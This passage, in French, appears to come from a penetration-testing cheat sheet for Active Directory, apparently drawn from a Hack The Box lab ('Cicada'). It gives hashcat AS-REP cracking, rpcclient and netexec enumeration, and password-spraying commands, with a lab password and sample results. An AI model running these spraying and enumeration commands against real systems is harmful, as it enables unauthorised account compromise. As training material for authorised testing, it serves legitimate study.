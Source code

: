 Notes :

- Créez un fichier machines.users avec une liste d’utilisateurs potentiels (par exemple, obtenus via `rpcclient` ou `ldapsearch`).
    
- Utilisez `hashcat` avec le mode `18200` (`Kerberos 5 AS-REP etype 23`) pour casser les hashes récupérés.
    

### Énumération LDAP

- **Objectif** : Récupérer des informations sur les objets AD (utilisateurs, groupes, ordinateurs) via LDAP.
    
- **Outils** : `rpcclient`, `ldapsearch`, `netexec`.
    
- **Contexte** : Nécessite souvent des identifiants valides pour interroger le serveur LDAP.
    

```bash
# Énumérer les informations d’affichage via RPC
rpcclient <IP> -U '%' -c 'querydispinfo'
# Avec identifiants
rpcclient <IP> -U '<USERNAME>%<PASSWORD>' -c 'querydispinfo'
# Exemple :
rpcclient 10.10.11.35 -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8' -c 'querydispinfo'

# Énumérer les partages SMB pour identifier les accès
netexec smb <IP> -u '<USERNAME>' -p '<PASSWORD>' --shares
# Exemple :
netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
```

**Notes** :

- `querydispinfo` via `rpcclient` liste les utilisateurs et leurs attributs si l’accès est autorisé.
    
- Pour une énumération `LDAP` plus détaillée, utilisez `ldapsearch` ou `BloodHound` avec des identifiants valides.
    

---

### Spraying de mots de passe

- **Objectif** : Tester un mot de passe commun sur plusieurs comptes pour identifier des identifiants valides.
    
- **Outil** : `netexec`.
    
- **Contexte** : Utile lorsque vous avez une liste d’utilisateurs et un mot de passe potentiel (par exemple, obtenu via une fuite ou une politique faible).
    

```bash
# Spraying avec une liste d’utilisateurs et un mot de passe commun
netexec smb <IP> -u <USER_LIST> -p '<PASSWORD>' --no-bruteforce
# Exemple :
netexec smb 10.10.11.35 -u cicada.users -p 'Cicada$M6Corpb*@Lp#nZp!8' --no-bruteforce
# Résultat :
# SMB 10.10.11.35 445 CICADA-DC [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
# SMB 10.10.11.35 445 CICADA-DC [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
```
